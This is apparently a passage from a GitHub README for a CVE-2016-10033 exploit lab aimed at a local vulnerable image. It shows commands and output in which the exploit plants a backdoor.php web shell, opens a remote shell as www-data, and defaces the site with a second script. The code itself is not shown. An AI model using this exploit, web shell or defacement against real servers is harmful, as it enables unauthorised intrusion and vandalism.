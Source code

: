 ### Exploit additional_headers

To exploit this target just run:

    ./exploit host:port

If you are using this vulnerable image, you can just run:

    ./exploit localhost:8080

After the exploitation, a file called backdoor.php will be stored on the root folder of the web directory. And the exploit will drop you a shell where you can send commands to the backdoor:

    ./exploit.sh localhost:8080
    [+] CVE-2016-10033 exploit by opsxcq
    [+] Exploiting localhost:8080
    [+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
    [+] Checking if the backdoor was created on target system
    [+] Backdoor.php found on remote system
    [+] Running whoami
    www-data
    RemoteShell>

And that's it, you have your shell. There is another exploit, which ilustrates another use case.

    ./deface.sh localhost:8080
    [+] CVE-2016-10033 exploit by opsxcq
    [+] Exploiting localhost:8080
    [+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
    [+] Checking if the backdoor was created on target system
    [+] Backdoor.php found on remote system
    [+] Placing your message in the server
    [+] Job done, exiting

And if you visit the page again, you will see this:

![defaced](defaced.png)